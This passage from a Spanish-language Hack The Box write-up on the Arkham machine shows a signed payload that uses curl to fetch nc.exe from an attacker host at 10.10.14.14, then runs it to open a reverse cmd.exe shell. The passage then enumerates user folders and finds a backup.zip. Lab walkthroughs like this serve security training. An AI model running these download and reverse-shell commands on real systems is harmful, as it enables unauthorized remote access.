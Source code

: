 Siguiendo la guía citada, vemos que la ruta anterior también puede encontrarse como `TEMP/`, así que probemos:

```py
...
sign_payload("curl http://10.10.14.14:8000/nc.exe -o C:\\Windows\\TEMP\\nc.exe'")
sign_payload("C:\\Windows\\TEMP\\nc.exe 10.10.14.14 4433 -e cmd.exe")
```

Recibimos petición y en nuestro listeneeeeeer:

![179bash_alfred_revSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/arkham/179bash_alfred_revSH.png)

Listooooones, a darleeeeeeeeeeeeeeeeee!!

...

## Movimiento lateral : Alfred -> Batman [#](#movimiento-lateral-alfred-batman) {#movimiento-lateral-alfred-batman}

Enumerando un poco sobre el directorio `C:\Users` vemos:

```powershell
c:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is FA90-3873

 Directory of c:\Users

02/03/2019  06:54 PM    <DIR>          .
02/03/2019  06:54 PM    <DIR>          ..
02/03/2019  09:26 AM    <DIR>          Administrator
02/03/2019  06:31 PM    <DIR>          Alfred
02/02/2019  10:48 AM    <DIR>          Batman
02/03/2019  06:54 PM    <DIR>          Guest
02/01/2019  08:19 AM    <DIR>          Public
               0 File(s)              0 bytes
               7 Dir(s)   8,718,667,776 bytes free

c:\Users>
```

Profundizando en el directorio `C:\Users\Alfred` encontramos un archivo `.zip`:

```powershell
c:\Users\Alfred\Downloads\backups>dir
 Volume in drive C has no label.
 Volume Serial Number is FA90-3873

 Directory of c:\Users\Alfred\Downloads\backups

04/27/2021  10:24 PM    <DIR>          .
04/27/2021  10:24 PM    <DIR>          ..
02/03/2019  08:41 AM           124,257 backup.zip
               1 File(s)        124,257 bytes
               2 Dir(s)   8,722,964,480 bytes free

c:\Users\Alfred\Downloads\backups>
```
